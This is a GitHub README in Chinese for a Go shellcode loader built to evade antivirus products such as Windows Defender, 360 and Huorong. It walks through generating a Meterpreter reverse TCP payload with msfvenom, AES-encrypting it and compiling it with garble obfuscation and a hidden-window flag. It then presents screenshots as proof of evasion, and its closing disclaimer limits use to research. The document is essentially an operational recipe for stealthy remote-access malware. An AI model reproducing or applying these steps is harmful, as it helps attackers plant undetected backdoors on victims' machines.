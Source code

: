 # go-shellcode-loader

GO混淆免杀shellcode加载器AES加密

混淆反检测 过DF、360和火绒


#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes-sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：
                          
                          -tiny                    删除额外信息
                          
                          -literals               混淆文字

                          -seed=random   base64编码的随机种子 

  go：
        
        -w                        去掉调试信息，不能gdb调试了

        -s                         去掉符号表

        -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

        -race                    使数据允许竞争检测

编译后得到go-sc.exe

#### 检测图

**火绒**

![image](https://user-images.githubusercontent.com/22775890/172315590-c32aa9ad-0b2b-43cd-a96c-45d971a83ef5.png)


**360杀毒**

![image](https://user-images.githubusercontent.com/22775890/172315610-9bfa9d41-31a1-42d5-bd54-b0ce3e73318d.png)


**360卫士**

![image](https://user-images.githubusercontent.com/22775890/172315642-73266f42-6019-42b7-bb02-5dd59b0925b7.png)



**DF**

![image](https://user-images.githubusercontent.com/22775890/172315670-89a23a36-5e1f-40e8-b311-a4a22490d1ca.png)



**virustotal**

![image](https://user-images.githubusercontent.com/22775890/172315706-4fbd57a6-0e14-497a-af91-ea6c7cdf0704.png)



**微步云杀箱**

![image](https://user-images.githubusercontent.com/22775890/172315732-84eb7a75-481c-4904-a341-bd96a336ad87.png)




**运行效果**




https://user-images.githubusercontent.com/22775890/172315782-707cfbbb-90ed-4156-97d8-dcaf0da8a554.mp4


## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。
